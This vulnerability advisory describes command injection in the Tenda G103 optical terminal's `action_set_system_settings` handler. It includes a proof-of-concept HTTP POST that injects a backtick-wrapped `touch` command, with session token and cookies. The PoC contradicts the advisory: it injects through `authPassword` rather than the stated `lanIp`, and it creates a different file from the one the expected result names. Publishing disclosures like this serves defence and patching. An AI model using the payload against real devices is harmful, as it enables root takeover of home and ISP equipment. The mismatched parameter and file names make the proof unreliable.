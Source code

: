 # Tenda G103 Command Injection Vulnerability in `lanIp` Parameter of `action_set_system_settings` (system.lua)

## Overview

A command injection vulnerability exists in the `action_set_system_settings` function of the `system.lua` file in Tenda G103 GPON optical network terminals. The vulnerability arises due to improper sanitization of the `lanIp` parameter, which is directly concatenated into system commands without validation. Authenticated attackers can exploit this to execute arbitrary system commands with root privileges, leading to full device compromise.

## Details



*   **Vendor**: Tenda

*   **Product**: G103_V1.0.0.5

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: https://tenda.com.cn/material/show/2615

*   **Affected Component**: `system.lua` (LuCI controller)

*   **Affected Function**: `action_set_system_settings`

*   **Affected Parameter**: `lanIp`

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, sensitive data leakage, device configuration tampering, or complete takeover

## Vulnerability Analysis

The `action_set_system_settings` function handles the `lanIp` parameter (used to configure the LAN interface IP address). The parameter is directly passed to system commands such as `ifconfig`, `fw_setenv`, and `uci` without sanitization or validation.

Key vulnerable code in `system.lua`:

![](./imgs/0.png)

Attackers can inject arbitrary commands by including shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or `&&`) in the `lanIp` parameter. These characters are not filtered, allowing the injected commands to be parsed and executed by the system shell.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/set_system_settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 40
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; isLogin=true; sysauth=ca14c877a3df6cdc740bf4bbef3f02c1; sysauth=; repeatTimes=0; isLogin=true
Connection: keep-alive
 
authPassword=1`touch$IFS/tmp/setting.txt`
```

#### Execution Steps:

1.  Send the above POST request with a valid `stok` (session token) and authentication cookies.

2.  Access the device (via CLI or another injected command) and verify the existence of `/tmp/lanip_inject.txt`.

#### Expected Result:

The file `/tmp/lanip_inject.txt` is created, confirming successful execution of the injected `touch` command.

![](./imgs/1.png)
![](./imgs/2.png)
